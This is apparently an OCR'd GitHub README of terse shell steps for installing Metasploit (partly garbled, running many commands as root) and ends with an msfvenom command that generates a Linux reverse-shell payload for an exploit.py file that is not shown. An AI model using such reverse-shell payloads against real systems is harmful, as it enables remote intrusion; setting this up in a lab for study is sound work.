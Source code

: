 ```
```
```
touch Gemfile
```
```
nano Gemfile
```
Copy and save
```
source "https://rubygems.org"

gem "rails"  # Example gem, replace with what you need
```

exit if root account
```
sudo bundle install
```
```
sudo bundle update
```
```
sudo gem install rex-text
```
```
sudo bundle install
```
```
sudo bundle update
```

```
mkdir msf-install && cd ./msf-install
```
```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
```
```
 chmod 755 msfinstall
```
```
 sudo ./msfinstall
```
run in root : 
```
sudo su
```
```
msfconsole
```
tape ctrl+x
```
msfupdate
```
```
cd /opt/metasploit-framework/embedded/framework/tools/exploit
```
```
sudo ln -s $(pwd)/pattern_create.rb /usr/local/bin/msf-pattern_create
```
```
sudo ln -s /opt/metasploit-framework/bin/msf-pattern_create /usr/local/bin/msf-pattern_create
```
```
ip a
```
eg : 192.168.29.152
```
msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.29.152 lport=9001 -b "\x00" -f python
```
in the location create exploit.py
